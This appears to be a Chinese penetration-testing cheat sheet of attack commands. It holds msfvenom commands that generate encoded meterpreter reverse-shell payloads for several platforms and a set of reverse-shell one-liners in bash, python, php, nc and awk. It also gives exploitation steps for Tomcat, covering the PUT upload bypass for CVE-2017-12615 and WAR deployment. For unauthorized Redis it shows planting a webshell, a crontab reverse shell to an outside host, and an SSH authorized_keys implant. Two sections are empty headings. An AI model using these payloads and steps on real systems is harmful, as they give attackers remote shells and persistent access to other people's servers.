

## msf常用命令

### msfvenom

参数：

-   `-l` 列出相关的值，这些值包括 `payloads, encoders, nops, platforms, archs, encrypt, formats, all`
    
-   `-b` badchar 参数被设置的时候，它的值中描述的字符将会被避免出现在 Payload 中
    
-   `-e` 开启payload编码
    

```
msfvenom -l encoders 列出所有的编码器
```

其中比较强大的有：

`x86/shikata_ga_nai, cmd/powershell_base64`

-   `-i` 指定编码次数
-   `-x` 指定一个特定的可执行文件作为模板，常与 `-k` 联合使用，保护模板程序的功能，注入的payload作为一个新的进程运行
-   `-n` 指定填充的nop数量

### 常用payload生成命令

Windows (避免坏字节的出现)

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp
LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```

Android

```
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

powershell

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

Linux

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

php

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw > shell.php
```

war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war
```

war包和jar包区别：

> war包是java web打的包，可以直接丢到tomcat的webapp目录下运行，jar包是java应用程序打的包，像spring boot打包就是jar，因为内置了web服务器

python

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

Windows shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

Linux shellcode

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

## 常用反弹shell

github项目：[https://github.com/m0rph-1/revshellgen](https://github.com/m0rph-1/revshellgen) 可以很方便地生成各种形式的反弹shell命令

bash反弹shell

```
~/revshellgen (master ✔) ᐅ python revshellgen.py -i 127.0.0.1 -p 1234 -t bash

[+] Reverse shell command:

bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```

python反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

php反弹shell

```
php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

nc反弹shell

```
ncat 127.0.0.1 1234 -e /bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f
```

awk反弹shell

```
awk 'BEGIN {s = "/inet/tcp/0/127.0.0.1/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

nc-pipe

```
/bin/sh | nc 127.0.0.1 1234
```

## tomcat常见漏洞

### Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

`/conf/web.xml` 文件中的readonly为false

```
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```

之后就可以通过PUT方式上传文件，但是 `.jsp` 的后缀会被限制

绕过方式：

-   Windows文件名加空格 `PUT /x.jsp%20 HTTP/1.1` 上传之后在Windows下空格会被去掉
-   NTFS流， `PUT /x.jsp::$DATA HTTP/1.1`
-   `/`在文件名中是非法的，也会被去除（Linux/Windows) `PUT /x.jsp/ HTTP/1.1`

### tomcat 后台部署war包漏洞

`tomcat-users.xml` 修改配置

```
<role rolename="manager-gui"/>
<role rolename="admin-gui"/>
<user username="tomcat" password="admin" roles="manager-gui,admin-gui"/>
<user username="both" password="admin" roles="tomcat,role1"/>
<user username="role1" password="admin" roles="role1"/>
```

之后访问到 `http://127.0.0.1:8080/manager`

写一个shell.jsp，打包之后改名为war包上传即可getshell(也可以用msf生成一个war包)

### tomcat目录遍历

`web.xml` 中如果 `listings` 参数为true，导致目录遍历漏洞



## redis常见漏洞

给你一个未授权访问redis，你能做啥？

### redis写shell

```
config set dir /var/www/html
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save
```

### 写crontab反弹shell

在redis以root权限运行时可以写crontab来执行命令反弹shell

```
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
OK
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

### 写ssh-keygen公钥

在以下条件下，可以利用此方法

1.  Redis服务使用ROOT账号启动
2.  服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

`ssh-keygen -t rsa` 生成一对公私钥

然后redis执行命令，注意写入的公钥必须要前后分别加个换行

```
192.168.63.130:6379> config set dir /root/.ssh/
OK
192.168.63.130:6379> config set dbfilename authorized_keys
OK
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n"
OK
192.168.63.130:6379> save
OK
```

### 主从复制

## phpmyadmin常见漏洞

### 本地文件包含

## 参考

[https://xz.aliyun.com/t/256#toc-2](https://xz.aliyun.com/t/256#toc-2)

[https://paper.seebug.org/975/](https://paper.seebug.org/975/)
